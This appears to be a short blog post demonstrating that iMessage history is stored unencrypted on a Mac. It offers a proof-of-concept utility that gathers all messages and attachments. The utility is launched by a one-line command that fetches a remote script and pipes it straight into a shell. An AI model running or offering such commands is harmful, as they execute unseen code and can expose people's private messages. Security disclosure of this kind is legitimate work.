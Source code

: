 ```yaml
---
title: Steal all of your iMessages

---
```


Apple touts the [security of its
iMessage service](https://support.apple.com/en-us/HT207006).
It turns out, locally, the data is sitting unencrypted ready for taking.

As a proof of concept I made a small utility to read all the iMessage data on
a computer and turn into a web archive. One folder with all of your attachments
and messages ready to peruse. Better yet, I made it easy to run on any Mac. Just
open up a terminal and run:

<div class='boom-script'>
  <pre><code>curl -s www.jpoz.net/mz | sh</code></pre>
</div>

Go to the user's home folder and you'll find a `messages` directory.

Enjoy! Don't do bad things with it.

